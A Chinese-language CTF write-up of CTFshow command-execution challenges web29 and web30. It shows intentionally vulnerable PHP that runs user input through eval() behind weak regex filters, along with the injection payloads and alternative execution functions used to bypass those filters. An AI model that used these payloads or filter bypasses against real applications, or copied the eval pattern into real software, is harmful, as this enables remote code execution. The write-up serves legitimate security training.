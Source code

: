 ```yaml
---
{"dg-publish":true,"title":"CTFshow_命令执行","dg-path":"安全/靶场/CTFshow_命令执行.md","permalink":"/安全/靶场/CTFshow_命令执行/","dgPassFrontmatter":true}
---
```


# web29

```php
<?php  
   
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```

```
?c=system(ls);
```
![Pasted image 20240912111923.png](/img/user/picture/Pasted%20image%2020240912111923.png)
```
?c=system("tac fl*");
```

![Pasted image 20240912112201.png](/img/user/picture/Pasted%20image%2020240912112201.png)


# web30

```php
<?php  
  
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```
这里禁用了system，可以考虑使用其他命令执行函数
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等
```
?c=echo shell_exec("tac fl*");
```
![Pasted image 20240912113751.png](/img/user/picture/Pasted%20image%2020240912113751.png)
